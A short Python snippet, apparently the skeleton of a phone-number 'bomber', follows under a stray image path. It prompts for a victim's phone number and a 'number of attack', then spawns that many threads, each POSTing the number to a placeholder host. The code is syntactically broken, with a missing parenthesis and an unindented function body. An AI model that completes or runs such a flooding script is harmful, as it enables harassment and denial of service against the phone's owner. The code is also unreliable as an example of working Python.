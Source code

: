 import requests,threading
from threading import Thread

print("abc")
phone = input ("phone : ")
z = int(input ("number of attack : ")

def a():
requests.post("http://a.co", data = {"a":phone}, headers =
{"abc": "1"})
print("success")

for i in range(z):
threading. Thread(target=a).start()
